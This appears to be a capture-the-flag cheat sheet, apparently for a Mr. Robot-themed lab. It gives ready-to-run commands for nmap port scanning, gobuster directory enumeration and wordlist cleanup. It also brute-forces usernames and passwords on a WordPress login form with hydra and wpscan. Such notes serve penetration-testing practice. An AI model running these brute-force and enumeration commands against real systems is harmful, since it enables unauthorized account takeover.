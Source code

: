 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=
gobuster dir -u HTTP://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### How to bruteforce input fields with hydra
Username
```bash
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
Password
```bash
hydra -L example -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you enter for the username" -t 30
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```
